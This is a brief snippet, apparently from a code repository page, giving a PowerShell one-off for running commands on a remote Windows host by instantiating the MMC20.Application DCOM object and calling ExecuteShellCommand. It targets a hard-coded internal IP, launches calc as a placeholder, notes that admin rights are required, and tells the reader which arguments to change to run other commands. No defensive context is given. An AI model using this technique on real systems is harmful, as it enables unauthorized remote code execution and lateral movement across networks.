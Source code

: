 Requires a PowerShell with *admin* privs!
```powershell
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.50.73"))

# Only change the 1st and 3rd arguments
$dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c calc","7")
```
